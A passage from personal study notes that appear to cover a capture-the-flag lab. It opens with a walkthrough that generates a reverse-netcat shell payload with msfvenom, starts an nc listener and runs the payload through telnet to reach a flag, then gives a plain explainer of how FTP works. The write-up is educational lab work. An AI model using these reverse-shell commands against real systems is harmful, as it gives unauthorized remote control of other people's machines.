 gets the ip the put it directly in lhost

└─$ msfvenom -p cmd/unix/reverse_netcat LHOST=10.21.117.138 lport=4444 R

Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:

**"nc -lvnp [listening port]"**


Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!

![[Pasted image 20250107223617.png]]


![[Pasted image 20250107223636.png]]

cat flag.txt

found the flag.


## FTP

**Definition**:  
FTP is a protocol used for transferring files between computers over a network. It works on a ==client-server== model, where a client sends commands and the server responds, transferring files as requested.

---

### **How FTP Works**:

- **Two Channels**:
    
    1. **Command (Control) Channel**: Used for sending commands and receiving responses.
    2. **Data Channel**: Used for transferring the actual data (files).
- **Client-Server Interaction**:
    
    - The **client** initiates a connection to the **server** and provides login credentials.
    - After validation, the session is opened and the client can issue commands to the server.

---

### **Active vs. Passive FTP**:

- **Active FTP**:
    
    - The **client** opens a port and listens.
    - The **server** actively connects to the client's open port to transfer data.
- **Passive FTP**:
    
    - The **server** opens a port and listens.
    - The **client** connects to the server's open port for data transfer.

The distinction allows for more efficient transfers, especially in situations involving firewalls or NAT (Network Address Translation).

---